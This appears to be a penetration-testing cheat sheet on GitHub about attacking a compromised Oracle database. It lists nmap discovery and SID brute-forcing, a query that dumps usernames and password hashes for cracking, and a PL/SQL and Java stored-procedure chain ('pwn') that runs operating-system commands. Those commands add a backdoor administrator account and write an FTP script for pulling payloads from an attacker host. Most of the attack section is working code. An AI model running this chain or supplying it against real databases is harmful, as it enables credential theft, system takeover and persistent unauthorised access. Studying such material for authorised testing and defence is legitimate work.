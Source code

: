 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

### Get the Database Version:
`SELECT * FROM V$VERSION`

### List all Tables Owned by DB User:
`SELECT table_name FROM user_tables;`

### Get the Current Database Name:
`SELECT NAME FROM v$database;~

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious curly brace '{','}', escaping issue with the driver used by dbeaver. This must be done as a SYSTEM-level DBA account. This is just a precautionary step to ensure that we do, in fact, have permissions to create the Java stored procedure that we will use to execute commands. In most cases, we don't have these permissions, but because we are SYSTEM-level DBA, we have permission to assign these permissions to ourself.

```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

This SQL will create a Java class called `mycmd` and a method in the class called `execCommand`.

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.* This Java creates a class called "pwn" that we can instantiate objects from. Thus we can do `object_name('C:\WINDOWS\System32\cmd.exe');` to execute commands right from the SQLPlus> shell.

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/
```
If successful, you will see *Procedure Created*. We can then call  it as `pwn_cmd('C:\WINDOWS\System32\CMD.EXE');` as so:

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec pwn_cmd('net user trevelyn trevelyn /add');`

`exec pwn_cmd('net localgroup Administrators trevelyn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whole process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully. If you accidentally try two commands at once, you will be disobeying the interface of the class / method of mycmd.execCommand and the server will restart your SQL session state and you will have to start over again anyways.

**CAVEAT**
Some "commands" are actually built into shells. So, `echo`, for instance, is part of MSDOS.EXE and not an actual binary on the file system. This means that you cannot simply do:

`exec pwn_cmd('echo connect x.x.x.x > C:\ftp.script');`

As the object will throw an exception stating tha the handle is invalid. To execute shell built-ins, you can call the shell directly wi the command as an argument. For instance,

`exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt');`

Will spawn a new MSDOS.EXE instance, and run the `echo` built-in shell command. This is useful to know if you do not have any other means of file system access and you want to [use FTP to pull payloads from the attacker onto the target system,](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/ftp.md) or to create batch files and execute them directly from the SQLPlus shell itself.
